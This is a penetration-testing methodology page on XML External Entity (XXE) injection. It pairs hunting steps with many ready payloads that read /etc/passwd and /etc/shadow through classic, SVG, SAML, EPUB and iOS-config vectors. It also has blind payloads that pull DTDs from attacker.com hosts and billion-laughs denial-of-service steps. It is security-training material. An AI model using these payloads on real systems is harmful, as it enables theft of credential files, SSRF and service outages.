




## Full Methodology

# XML External Entity (XXE) Injection

## Shortcut

- Find data entry points that you can use to submit XML data.
- Determine whether the entry point is a candidate for a classic or blind XXE. The endpoint might be vulnerable to classic XXE if it returns the parsed XML data in the HTTP response. If the endpoint does not return results, it might still be vulnerable to blind XXE, and you should set up a callback listener for your tests.
- Try out a few test payloads to see if the parser is improperly configured. In the case of classic XXE, you can check whether the parser is processing external entities. In the case of blind XXE, you can make the server send requests to your callback listener to see if you can trigger outbound interaction.
- Try to exfiltrate a common system file, like /etc/hostname.
- You can also try to retrieve some more sensitive system files, like /etc/shadow or ~/.bash_history.
- If you cannot exfiltrate the entire file with a simple XXE payload, try to use an alternative data exfiltration method.
- See if you can launch an SSRF attack using the XXE.

## Mechanisms

XML External Entity (XXE) is a vulnerability that occurs when XML parsers process external entity references within XML documents. XXE attacks target applications that parse XML input and can lead to:

- Disclosure of confidential files and data
- Server-side request forgery (SSRF)
- Denial of service attacks
- Remote code execution in some cases



XXE vulnerabilities arise from XML's Document Type Definition (DTD) feature, which allows defining entities that can reference external resources. When a vulnerable XML parser processes these entities, it retrieves and includes the external resources, potentially exposing sensitive information.

In practice, full remote code execution rarely stems from XXE alone; it typically requires language-specific gadgets—such as PHP's `expect://` wrapper or Java deserialization sinks—which XXE merely helps reach.



Types of XXE attacks include:

- **Classic XXE**: Direct extraction of data visible in responses
- **Blind XXE**: No direct output, but data can be exfiltrated through out-of-band techniques
- **Error-based XXE**: Leveraging error messages to extract data
- **XInclude-based XXE**: Using XInclude when direct DTD access is restricted



## Hunt

### Finding XXE Vulnerabilities

#### Additional Discovery Methods

- Convert content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml"
- Check file uploads that allow docx/xlsx/pdf/zip - unzip the package and add XML code into the XML files
- Test SVG file uploads for XML injection
- Check RSS feeds functionality for XML injection
- Fuzz for /soap API endpoints
- Test SSO integration points for XML injection in SAML requests/responses

#### Identify XML Injection Points



- **API Endpoints**: Look for endpoints accepting XML data
- **File Uploads**: Features accepting XML-based files (DOCX, SVG, XML, etc.)
- **Format Conversion**: Services converting to/from XML formats
- **Legacy Interfaces**: SOAP web services, XML-RPC
- **Hidden XML Parsers**: Look for parameters that might be processed as XML behind the scenes
- **Content Type Conversion**: Endpoints that accept JSON but may process XML with proper Content-Type

#### Test Basic XXE Patterns

For each potential injection point, test with simple payloads:

- **Classic XXE (file retrieval)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```

  or

  ```xml
  <!DOCTYPE ase [ <!ENTITY %test SYSTEM "http://sib.com/sib"> %test; ]>
  <example>&test;</example>
  ```

- **Blind XXE (out-of-band detection)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
    %xxe;
  ]>
  <root>test</root>
  ```

- **XInclude attack** (when unable to define a DTD):
  ```xml
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </root>
  ```

#### Billion Laughs Attack Steps

1. Capture the request in your proxy tool
2. Send it to repeater and convert body to XML format
3. Check the Accept header and modify to Application/xml if needed
4. Convert JSON to XML if no direct XML input is possible
5. Insert the billion laughs payload between XML tags
6. Adjust entity references (lol1 to lol9) to control DoS intensity

#### Check Alternative XML Formats

- **SVG files**:

  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname" >
  ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```

  or

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
    <!ENTITY test SYSTEM "file:///etc/shadow">
  ]>
  <svg width="500" height="500">
    <circle cx="50" cy="50" r="40" fill="blue" />
    <text font-size="16" x="0" y="16">&test;</text>
  </svg>
  ```

- **DOCX/XLSX files**: Modify internal XML files (e.g., word/document.xml)
- **SOAP messages**: Test XXE in SOAP envelope

#### SAML 2.0 XXE Testing

SAML assertions are prime XXE targets. Test both requests and responses:

**AuthnRequest XXE:**

```xml
<samlp:AuthnRequest
  xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
  xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
  ID="_xxe" Version="2.0" IssueInstant="2025-01-01T00:00:00Z">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <saml:Issuer>&xxe;</saml:Issuer>
</samlp:AuthnRequest>
```

**Response Assertion XXE:**

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil">]>
  <saml:Assertion>
    <saml:AttributeValue>&xxe;</saml:AttributeValue>
  </saml:Assertion>
</samlp:Response>
```

**Encrypted Assertion XXE (Response Wrapping):**

```xml
<!-- Inject XXE before encryption, Service Provider decrypts and processes -->
<saml:EncryptedAssertion>
  <!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"> %dtd;]>
  <EncryptedData>...</EncryptedData>
</saml:EncryptedAssertion>
```

#### E-book Format Exploitation (EPUB)

EPUB files are ZIP archives containing XML. Target library management systems and e-reader apps:

```xml
<!-- content.opf inside EPUB -->
<?xml version="1.0"?>
<!DOCTYPE package [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<package xmlns="http://www.idpf.org/2007/opf" version="3.0">
  <metadata>
    <dc:title>&xxe;</dc:title>
  </metadata>
</package>
```

**Attack workflow:**

1. Create legitimate EPUB file
2. Extract contents (it's a ZIP)
3. Inject XXE into `META-INF/container.xml` or `content.opf`
4. Re-zip and upload to target (library systems, e-commerce platforms)

#### Apple Universal Links XXE

iOS deep linking configuration files:

```xml
<!-- apple-app-site-association generated from XML -->
<?xml version="1.0"?>
<!DOCTYPE config [
  <!ENTITY xxe SYSTEM "file:///var/mobile/Containers/Data/Application/config.plist">
]>
<config>
  <applinks>&xxe;</applinks>
</config>
```

### Advanced XXE Hunting

